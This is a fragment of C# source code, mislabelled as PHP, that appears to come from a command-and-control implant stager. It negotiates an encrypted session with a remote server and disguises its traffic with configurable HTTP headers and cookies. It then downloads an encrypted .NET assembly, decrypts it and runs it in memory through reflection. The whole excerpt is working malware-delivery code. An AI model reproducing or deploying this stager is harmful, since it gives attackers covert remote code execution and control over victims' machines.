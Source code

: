 ```php
                byte[] DecryptedChallenges = SessionKey.CreateDecryptor().TransformFinalBlock(messageBytes, 0, messageBytes.Length);
                byte[] challenge1Test = new byte[4];
                byte[] challenge2 = new byte[4];
                Buffer.BlockCopy(DecryptedChallenges, 0, challenge1Test, 0, 4);
                Buffer.BlockCopy(DecryptedChallenges, 4, challenge2, 0, 4);
                if (Convert.ToBase64String(challenge1) != Convert.ToBase64String(challenge1Test)) { return; }

                SessionKey.GenerateIV();
                byte[] EncryptedChallenge2 = SessionKey.CreateEncryptor().TransformFinalBlock(challenge2, 0, challenge2.Length);
                hash = hmac.ComputeHash(EncryptedChallenge2);

                string Stage2Body = String.Format(MessageFormat, GUID, "2", "", Convert.ToBase64String(SessionKey.IV), Convert.ToBase64String(EncryptedChallenge2), Convert.ToBase64String(hash));
                transformedResponse = MessageTransform.Transform(Encoding.UTF8.GetBytes(Stage2Body));

                string Stage2Response = "";
                for (int i = 0; i < ProfileHttpHeaderValues.Count; i++)
                {
                    if (ProfileHttpHeaderNames[i] == "Cookie")
                    {
                        wc.SetCookies(new Uri(CovenantURI), ProfileHttpHeaderValues[i].Replace(";", ",").Replace("{GUID}", GUID));
                    }
                    else
                    {
                        wc.Headers.Set(ProfileHttpHeaderNames[i].Replace("{GUID}", GUID), ProfileHttpHeaderValues[i].Replace("{GUID}", GUID));
                    }
                }
                Stage2Response = wc.UploadString(CovenantURI + ProfileHttpUrls[random.Next(ProfileHttpUrls.Count)].Replace("{GUID}", GUID), String.Format(ProfileHttpPostRequest, transformedResponse));
                extracted = Parse(Stage2Response, ProfileHttpPostResponse)[0];
                extracted = Encoding.UTF8.GetString(MessageTransform.Invert(extracted));
                parsed = Parse(extracted, MessageFormat);
                iv64str = parsed[3];
                message64str = parsed[4];
                hash64str = parsed[5];
                messageBytes = Convert.FromBase64String(message64str);
                if (hash64str != Convert.ToBase64String(hmac.ComputeHash(messageBytes))) { return; }
                SessionKey.IV = Convert.FromBase64String(iv64str);
                byte[] DecryptedAssembly = SessionKey.CreateDecryptor().TransformFinalBlock(messageBytes, 0, messageBytes.Length);
                Assembly gruntAssembly = Assembly.Load(DecryptedAssembly);
                gruntAssembly.GetTypes()[0].GetMethods()[0].Invoke(null, new Object[] { CovenantURI, CovenantCertHash, GUID, SessionKey });
            }
            catch (Exception e) { Console.Error.WriteLine(e.Message + Environment.NewLine + e.StackTrace); }
        }

        public class CookieWebClient : WebClient
        {
            public CookieContainer CookieContainer { get; private set; }
            public CookieWebClient()
            {
                this.CookieContainer = new CookieContainer();
            }
```